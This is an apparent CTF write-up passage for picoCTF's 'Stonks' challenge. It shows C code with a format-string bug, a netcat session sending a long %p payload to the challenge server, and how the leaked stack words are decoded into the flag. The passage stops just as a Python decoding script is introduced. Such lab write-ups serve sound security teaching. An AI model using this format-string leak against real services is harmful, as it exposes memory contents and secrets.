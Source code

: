 Looking further down the function we find a string format vulnerability.
```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

We will use this to find the flag which is sitting inside the stack.  
As we now, the flags start using `pico`.  
In hexadecimal this is `70 69 63 6F` or `6F 63 69 70` in Little Endian format.  
We will use the hexadecimal in Little Endian format to search for the flag inside the stack dump we will get.
```
$ nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x986d3700x804b0000x80489c30xf7efcd800xffffffff0x10x986b1600xf7f0a1100xf7efcdc7(nil)0x986c1800x10x986d3500x986d3700x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x353430360x643036640xfff4007d0xf7f37af80xf7f0a4400xfbf02b000x1(nil)0xf7d99ce90xf7f0b0c00xf7efc5c00xf7efc0000xfff4cd580xf7d8a68d0xf7efc5c00x8048eca0xfff4cd64(nil)0xf7f1ef090x804b0000xf7efc0000xf7efce200xfff4cd980xf7f24d500xf7efd8900xfbf02b000xf7efc0000x804b0000xfff4cd980x8048c860x986b1600xfff4cd840xfff4cd980x8048be90xf7efc3fc(nil)0xfff4ce4c0xfff4ce440x10x10x986b1600xfbf02b000xfff4cdb0(nil)(nil)0xf7d3ffa10xf7efc0000xf7efc000(nil)0xf7d3ffa10x10xfff4ce440xfff4ce4c0xfff4cdd40x1(nil)0xf7efc0000xf7f1f70a0xf7f37000(nil)0xf7efc000(nil)(nil)0x6aa3984c0x24c63e5c(nil)(nil)(nil)0x10x8048630(nil)0xf7f24d500xf7f1f9600x804b0000x10x8048630(nil)0x80486620x8048b850x10xfff4ce440x8048cd00x8048d300xf7f1f9600xfff4ce3c0xf7f379400x10xfff4de77(nil)0xfff4deb00xfff4debd0xfff4dec60xfff4def50xfff4df2d0xfff4df490xfff4df6b0xfff4df73(nil)0x200xf7f0fb500x210xf7f0f0000x100x1f8bfbff0x60x10000x110x640x30x80480340x40x200x50x90x70xf7f100000x8(nil)0x90x80486300xb0x40d0xc0x40d0xd0x40e0xe0x40e0x17
Portfolio as of Sun Jul 27 11:58:19 UTC 2025


1 shares of UM
1 shares of HGAQ
184 shares of Y
7 shares of HJSO
Goodbye!
```

We grab the dump and search for `0x6F636970`.  
```
0x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x353430360x643036640xfff4007d
```
Now we copy until the first zero byte which represents the NULL terminator of the flag.  
This is until the first byte of the last word (remember Little Endian format).  
Now since each word is in Little Endian format, we have to reverse the bytes of each one and then convert them to string.  
To do this, I have written a small **Python** script
